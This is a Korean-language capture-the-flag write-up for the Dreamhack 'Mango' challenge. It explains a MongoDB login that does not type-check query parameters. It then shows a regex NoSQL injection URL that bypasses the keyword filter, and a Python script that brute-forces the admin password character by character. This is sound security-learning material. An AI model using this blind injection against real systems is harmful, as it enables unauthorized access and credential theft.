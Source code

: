 ## 📍Mango

```
이 문제는 데이터베이스에 저장된 플래그를 획득하는 문제입니다. 
플래그는 admin 계정의 비밀번호 입니다.
플래그의 형식은 DH{…} 입니다.
{‘uid’: ‘admin’, ‘upw’: ‘DH{32alphanumeric}’}
```

![](../../Attachments/59F000E6-5B91-4D49-A479-B2B6D7D99E59.png)

아래 주소를 URL에 붙여넣기하면 uid를 반환한다.

![](../../Attachments/57BE0A16-BB46-42E5-95B7-ABB94716DE42.png)

문제 지문에 나와있는 대로 admin 계정으로 로그인하려고 하면 막힌다.

![](../../Attachments/4AD563C8-18A8-4CB7-A825-C7C3C234851F.png)


#### 소스코드

`admin, dh, admi` 세 가지를 필터링하는 함수가 있다.
![](../../Attachments/3C451C0B-EF1F-442B-94E6-12F733DB7BA0.png)

login 페이지는 이용자가 쿼리로 전달한 `uid`와 `upw`를 `filter` 함수로 필터링한다.
필터링에 걸리지 않으면 DB를 검색하고, 찾아낸 이용자의 정보를 반환한다.
![](../../Attachments/CA9A9A0A-5A2B-4C19-AA72-744CDFFCF8A8.png)


#### 취약점

login 페이지에서 MongoDB에 쿼리를 전달하는 부분을 보면 쿼리 변수의 타입을 검사하지 않는다.
```sql
const {uid, upw} = req.query;

db.collection('user').findOne({
	'uid': uid,
	'upw': upw,
})
```
이로 인해 NoSQL Injection 공격이 발생할 수 있다.


#### 해결

/login에서는 로그인에 성공했을 때 이용자의 `uid`만 출력하기 때문에 Blind NoSQL Injection으로 admin의 `upw`를 획득해야 한다.

filter 함수가 특정 문자열을 필터링하고 있지만, 정규표현식을 이용하면 우회할 수 있다.

`http://host3.dreamhack.games:15768/login?uid[$regex]=ad.in&upw=D.{*`

![](../../Attachments/6B39B63E-371A-4A54-A77B-FF313DE2C89E.png)

`upw`는 정규표현식을 통해 한 글자씩 알아내야 하므로 여러 번 쿼리를 전달할 필요가 있다.
자동화 스크립트를 작성한다.

```python
import requests, string

HOST = 'http://host3.dreamhack.games:15768'
ALPHANUMERIC = string.digits + string.ascii_letters
SUCCESS = 'admin'

flag = ''

for i in range(32):
    for ch in ALPHANUMERIC:
        response = requests.get(f'{HOST}/login?uid[$regex]=ad.in&upw[$regex]=D.{{{flag}{ch}')
        if response.text == SUCCESS:
            flag += ch
            break
    print(f'FLAG: DH{{{flag}}}')
```

결과!

![](../../Attachments/BA763E55-6627-4715-A8F6-2EAC91CE2E16.png)
